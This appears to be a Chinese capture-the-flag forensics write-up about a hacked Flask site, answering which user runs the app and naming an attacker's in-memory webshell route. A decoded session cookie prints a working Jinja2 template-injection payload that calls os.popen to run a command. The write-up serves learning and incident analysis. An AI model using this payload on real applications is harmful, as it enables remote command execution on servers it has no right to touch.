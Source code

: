 题目内容：flask网站由哪个用户启动？

寻找返回http数据包中包含Set-Cookie

```bash
tcp contains "Set-Cookie" and http.response.code==200
```

![1](https://static.guyu.pro/2023/08/28/hd3/1.webp)

![2](https://static.guyu.pro/2023/08/28/hd3/2.webp)

![3](https://static.guyu.pro/2023/08/28/hd3/3.webp)

```python
python .\flask_session_cookie_manager3.py  decode -c ".eJwdylsKAyEMQNGtFEGiUGYBs5VpkRQz04AvjNIPce-t_TyXO9QZ8FK7quQfSd1VF6oJI_3S0HzehEQ4p60Xj43MgPXDHrhIjwc4d4X8wiDOwfNPatwoLhrIAvaAkgulxc87Y2SwWyX0xk6r59CUPJ96qvkFHeUvmg.YpIQkg.65xf8l2g9fXAImkfyihId46KkY4"

b'{"flag":"red\\n","username":"{%if session.update({\'flag\':lipsum[\'__globals__\'][\'__getitem__\'](\'os\')[\'popen\'](\'whoami\').read()})%}{%endif%}"}'
```

答案 `red`

## hacked_4

题目内容：攻击者写入的内存马的路由名叫什么？（答案里不需要加/）

![1](https://static.guyu.pro/2023/08/28/hd4/1.webp)

![2](https://static.guyu.pro/2023/08/28/hd4/2.webp)

答案 `Index`



整理复现来自gu.y
